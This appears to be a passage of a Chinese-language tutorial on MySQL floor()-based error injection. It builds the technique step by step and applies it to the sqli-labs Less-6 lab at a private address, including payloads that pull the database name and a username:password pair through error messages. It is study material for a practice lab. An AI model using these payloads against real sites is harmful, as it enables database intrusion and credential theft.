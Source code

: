**3.`concat_ws()`函数：将括号内第二三个数据用第一个字段连接起来**

```sql
SELECT concat_ws('-',(SELECT database()),'ok'); 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730105806806.png" alt="image-20220730105806806" style="zoom:50%;" />

**4.`group by`：对结果集进行分组，`as`：别名**

```sql
select concat_ws('-',(select database()),floor(rand()*2)) as zxf from users group by zxf;
```

结果被分成了两组。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730110347612.png" alt="image-20220730110347612" style="zoom: 50%;" />

**6.`count()`：汇总统计数量（报错点就在这里）**

```sql
select count(*),concat_ws('-',(select database()),floor(rand(1)*2)) as zxf from  information_schema.columns group by zxf -- 
```

```sql
select count(*),concat_ws('-',(select database()),floor(rand()*2)) as zxf from users group by zxf
#代码也可以写成如下：
select count(*) from users group by concat_ws('-',(select database()),floor(rand(1)*2));
```

结果有时会报错，但有时会正常运行。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730111155437.png" alt="image-20220730111155437" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730111226947.png" alt="image-20220730111226947" style="zoom: 50%;" />

把count(*)去掉不再报错，说明是在统计的时候出现错误。

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730115026120.png" alt="image-20220730115026120" style="zoom: 50%;" />

**报错原理：**

floor()报错注入的原因是group by在向临时表插入数据时，由于rand()多次计算导致插入临时表时主键重复，从而报错，又因为报错前concat()中的SQL语句或函数被执行，所以该语句报错且被抛出的主键是SQL语句或函数执行后的结果。

**7.`limit`：用于显示指定行数**

由于结果不只有一行，于是使用limit函数来限制。`limit 0,1`表示从0开始，显示一行。

```sql
select count(*),concat_ws('-',(select concat(username,':',password) from users limit 0,1),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- 
```

#### 靶场实战（less-6）

**1.判断数字型和字符型，然后猜测出列数，先使用union注入，发现没有回显位，于是使用floor报错注入。**

**2.通过报错信息查询数据库名**

```sql
http://192.168.37.148/sql/Less-6/?id=-1" union select 1,count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- 
```
